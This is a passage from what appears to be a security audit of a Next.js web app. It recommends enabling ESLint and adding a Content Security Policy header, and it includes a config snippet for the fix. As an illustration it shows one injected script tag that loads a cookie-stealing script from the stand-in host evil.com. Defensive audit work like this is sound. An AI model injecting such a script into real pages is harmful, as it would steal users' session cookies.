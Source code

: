 **Risk:** 🟢 **Low** (code quality issue, not direct vulnerability)

**Recommendation:** ✅ Enable ESLint in builds after fixing existing issues

---

### 3. No Content Security Policy (CSP)

**What is CSP?**
HTTP header that prevents XSS attacks by restricting resource loading.

**Example attack without CSP:**

```html
<!-- Attacker injects this somehow -->
<script src="https://evil.com/steal-cookies.js"></script>
```

**With CSP:**
```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-{random}';
  style-src 'self' 'nonce-{random}';
  img-src 'self' https:;
  connect-src 'self' https://api.intercom.io https://api.clerk.dev;
```

**Current Status:** ❌ No CSP headers configured

**Risk:** 🟡 **Medium** (if XSS vulnerability exists, CSP would be last line of defense)

**Mitigation:**

```typescript
// next.config.ts
const nextConfig = {
  async headers() {
    return [
      {
        source: '/:path*',
        headers: [
          {
            key: 'Content-Security-Policy',
            value: [
              "default-src 'self'",
              "script-src 'self' 'unsafe-inline' 'unsafe-eval'", // Next.js requires these
              "style-src 'self' 'unsafe-inline'",
              "img-src 'self' data: https:",
              "connect-src 'self' https://api.intercom.io https://api.clerk.dev",
              "frame-ancestors 'none'",
            ].join('; '),
          },
        ],
      },
    ];
  },
};
```
